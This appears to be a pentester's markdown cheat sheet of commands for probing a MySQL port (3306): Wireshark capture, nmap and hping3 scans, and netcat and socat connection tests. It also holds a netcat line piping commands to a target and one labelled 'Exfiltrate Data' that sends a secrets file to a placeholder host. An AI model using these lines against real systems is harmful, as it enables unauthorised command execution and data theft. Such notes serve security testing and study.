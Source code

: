 *   **Wireshark Packet Capture:**

    ```bash
    wireshark -i <interface> -f "tcp port 3306"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 3306
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 3306
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 3306 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 3306
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 3306 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **SoCat TCP Connect:** Simple tests to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:3306
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send Packet:** Send TCP packet to the service. Use `-2` to send UDP packet.

    ```bash
    hping3 <target_ip> -p 3306
    ```

#### \[\[SQLNinja]]

#### \[\[SQLMap Cheat Sheet]]
